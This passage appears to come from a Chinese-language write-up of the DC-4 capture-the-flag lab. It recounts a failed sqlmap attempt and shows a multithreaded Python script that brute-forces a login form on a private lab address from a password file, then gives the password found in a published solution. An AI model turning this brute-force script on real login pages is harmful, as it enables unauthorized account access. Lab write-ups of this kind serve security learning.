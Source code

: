sqlmap注入试了试，但是失败了，damm！，sqlmap注入漏洞越来越难挖了

只能暴力破解了，burpsuite爆破真慢，自己写个脚本试了试
嘶，不知道为啥跑不明白

```python
from concurrent.futures import ThreadPoolExecutor
import requests

url="http://192.168.1.109/login.php"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Content-Length": "29",
    "Origin": "http://192.168.1.109",
    "Connection": "keep-alive",
    "Referer": "http://192.168.1.109/index.php",
    "Cookie": "PHPSESSID=hdqol3i8s8bph4jc2jqi1hrpd1",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i"
}

def spider(passwd:str):
    response=requests.post(url=url,headers=headers,data={"admin":"admin","password":passwd})
    if len(response.content)==506:
        print(f"passwd:{passwd} failed")
    else:
        print(f"passwd {passwd} success")
        exit(-1)
passwds=[]
with open("passwd.txt",'r') as f:
    for line in f.readlines():
        passwds.append(line.strip())    

with ThreadPoolExecutor(max_workers=20) as pool:
    results=[pool.submit(spider,passwd) for passwd in passwds]


```

后续看了看题解知道密码是 **happy**.

登录后界面如下：

![登录界面](/images/2025/dc-4/1.png)
